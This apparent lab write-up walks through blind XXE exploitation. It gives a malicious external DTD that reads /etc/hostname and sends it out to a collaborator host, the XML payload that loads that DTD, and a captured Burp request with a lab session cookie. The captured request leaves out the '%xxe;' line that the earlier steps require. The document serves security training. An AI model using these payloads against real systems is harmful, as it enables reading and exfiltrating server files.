






# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab parses XML but does not display the result. The goal is to exfiltrate `/etc/hostname` through an external DTD hosted on the supplied exploit server or through the permitted Burp Collaborator service.

!!! warning "Use the lab values only"
    The domains, cookies, and collaborator values in captured requests are lab-session data. Generate fresh values when repeating the exercise.

## 1. Prepare the external DTD

Host a DTD on the lab exploit server. The source material uses the following pattern:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

`/etc/hostname` is a practical lab target because it is usually short and does not contain the newline-heavy output that can break a URL.

## 2. Load the DTD from the vulnerable request

Use an internal subset to fetch the hosted DTD:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "https://EXPLOIT-SERVER.example/exploit">
    %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

The target server fetches the external DTD, reads the local file, and makes the exfiltration request. The application response can remain empty or generic.

## 3. Burp request from the source capture

The following preserves the request structure supplied with the lab material. Replace the host, session, and exploit-server values with fresh lab values:

```http
POST /product/stock HTTP/2
Host: 0ae50081044e692e81f066ec002d0027.web-security-academy.net
Cookie: session=ZJVgB9OCDEu7Xh2bavsXuKdVDJ823wV2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae50081044e692e81f066ec002d0027.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 258
Origin: https://0ae50081044e692e81f066ec002d0027.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "https://EXPLOIT-SERVER.example/exploit">
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```














## 4. Verify the callback

Poll the listener and locate the request containing the hostname in the `x` parameter. The request arriving at the listener is the proof that the target parsed the external DTD and executed its parameter entities.

## Troubleshooting

- Use a short file first; newline characters can invalidate a URL.
- Confirm that the exploit server response is a valid DTD and is reachable by the lab.
- Ensure `%xxe;` is inside the `DOCTYPE` declaration.
- Use a new collaborator token if the result is mixed with older interactions.
